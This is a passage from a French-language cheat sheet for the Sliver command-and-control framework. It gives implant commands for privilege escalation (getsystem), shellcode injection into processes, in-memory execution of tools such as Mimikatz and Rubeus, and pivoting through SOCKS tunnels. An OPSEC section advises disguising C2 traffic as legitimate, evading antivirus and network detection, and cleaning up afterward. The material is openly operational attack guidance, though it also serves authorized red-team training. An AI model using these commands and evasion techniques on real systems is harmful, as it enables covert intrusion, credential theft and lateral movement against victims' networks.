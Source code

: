 * **Usage :** Transférer des outils vers la cible ou exfiltrer des fichiers.

#### Gestion des processus

```sliver
ps              # Lister les processus
kill <pid>      # Tuer un processus
getsystem       # Tente d'obtenir les privilèges SYSTEM (Windows)
procinject <pid> <shellcode_file.bin> # Injecter du shellcode dans un processus
```

* **Usage :** Énumération, élévation de privilèges, injection de code (ex: pour exécuter Mimikatz en mémoire).

#### Exécution d'extensions Armory

```sliver
# Exécuter un BOF (Beacon Object File)
execute-bof <fichier.o> <fonction_a_appeler> [arguments_encodés...]

# Exécuter un assembly .NET en mémoire
execute-assembly <fichier.exe> [arguments...]

# Utiliser un alias défini dans l'Armory
<nom_alias> [arguments...]
# Exemple (si un alias 'whoami_bof' existe): whoami_bof
```

* **Contexte :** Utilise les capacités d'exécution en mémoire de Sliver pour lancer des outils supplémentaires sans les écrire sur le disque.
* **Usage :** Exécuter des outils comme Mimikatz (BOF), Seatbelt (.NET), Rubeus (.NET) de manière plus discrète.

#### Pivoting et Tunnels

```sliver
pivot tcp <ip_cible_interne> <port_cible_interne> <port_local_serveur_c2> # Crée un tunnel TCP simple
socks5 start # Démarre un proxy SOCKS5 via l'implant
ifconfig # Voir/gérer les interfaces réseau pour le pivoting
```

* **Contexte :** Permet d'utiliser l'implant comme relais pour atteindre d'autres machines sur le réseau interne de la cible.
* **Usage :** Mouvement latéral, accès à des services non directement exposés.

---

### 🛡️ **Considérations OPSEC**

* **Profils :** Personnalisez les profils (`profiles new ...`) pour modifier les indicateurs par défaut de l'implant (User-Agent, délais de callback, jitter, etc.). Cela permet de mieux masquer l'activité C2 ou de l'adapter pour ressembler à du trafic légitime connu.
* **Staging :** Les stagers sont plus petits et peuvent être utiles pour contourner les détections initiales basées sur la taille ou pour des vecteurs comme les macros. Cependant, ils nécessitent une connexion supplémentaire pour télécharger l'implant complet, ce qui crée une autre opportunité de détection par les outils de surveillance réseau (NDR). Les implants stageless sont plus gros mais plus autonomes une fois exécutés.
* **Protocoles :** mTLS est généralement plus discret que HTTPS standard. 
* **Chiffrement :** Tout le trafic C2 de Sliver est chiffré (TLS, mTLS, WireGuard). Assurez-vous d'utiliser des protocoles robustes comme mTLS lorsque c'est possible.
* **Exécution en mémoire :** Privilégiez `execute-assembly` et `execute-bof` pour lancer des outils et des commandes. Cela évite d'écrire des fichiers exécutables sur le disque de la cible, réduisant ainsi considérablement les chances de détection par les antivirus basés sur les signatures de fichiers.
* **Nettoyage :** Une fois l'opération terminée, pensez à tuer les processus que vous auriez pu injecter (`procinject`), à arrêter les pivots (`pivot stop <id>`) et les proxies SOCKS (`socks5 stop`), et idéalement, à supprimer l'implant de la machine cible si la persistance n'est pas un objectif.